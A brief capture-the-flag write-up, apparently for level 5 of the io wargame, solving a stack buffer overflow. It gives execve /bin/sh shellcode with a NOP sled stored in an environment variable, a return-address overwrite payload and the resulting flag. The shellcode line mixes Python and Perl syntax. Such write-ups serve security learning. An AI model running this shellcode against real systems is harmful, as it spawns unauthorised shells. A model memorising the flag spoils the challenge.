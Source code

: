 #Level5:

Basic buffer Overflow.

But addresses were changing everytime. So exported shellcode to environment variable by using:

```
export SHELLCODE=`python -c 'print "\x90"x50,"\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"'`
```


Next found the address of this exported shellcode to be: `0xbffffe29`.

Made an exploit string which overflowed the buffer and overwrote the return address with the address of the shell.

```
level5@io:/levels$ python -c "print 140*'\x90'  +'\x29\xfe\xff\xbf'" > /tmp/inp.txt
level5@io:/levels$ ./level05 "$(< /tmp/inp.txt)"
```

Flag: `rXCikld0ex3EQsnI`